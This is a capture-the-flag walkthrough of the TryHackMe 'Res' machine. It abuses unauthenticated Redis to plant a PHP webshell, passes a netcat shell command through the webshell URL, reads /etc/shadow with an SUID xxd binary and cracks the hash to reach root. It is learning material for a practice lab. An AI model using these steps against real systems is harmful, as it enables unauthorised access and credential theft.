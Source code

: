 # Res - Tryhackme Writeup

**Res is a vulnerable machine on TryHackMe. Through this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is very insecure and should not be exposed over network. Redis does not have access control implementation and also it does not support encryption.**

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

**Nmap scan to find out the open ports and services**

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png | width=100)

**From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.**

## Vulnerability Identification

**1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](images/web_application .png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.**

## Exploitation

**To access Redis on 10.10.131.41, I installed redis-tools on my kali machine**

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

**I try to connect to a Redis server without a password and I was successfully connected to Redis server.**

![redis connect screenshot](/images/connect_redis.png | width=100)

**Running the “INFO” command listed out the redis version, operating system, architecture, and more.**

![redis info screenshot](/images/info_redis.png)


**Writing a php script and saving it to the web directory**

![Webshell screenshot](/images/webshell.png)

**Shell writing is complete, executing it on the target machine**

![Webshell execution screenshot](/images/webshell_execution.png)

**Make a netcat connection to the attacker IP**

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

## Post-Exploitation

### Privilage Escalation

**SUID bit is set for xxd**

![suid screenshot](/images/xxd_0.png)

**Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.**

![xxd screenshot](/images/xxd.png)


**Local user password hash from /etc/shadow file was found**

![password hash screenshot](/images/shadow.png)

**Using john the ripper, I cracked the local user password.**

![password cracked screenshot](/images/john.png)

**Once I logged in as the user, I found that the user had full sudo privileges. Using this privilege, I was able to switch user as root and gain root access**

Root access
![sudo screenshot](/images/root_access.png)








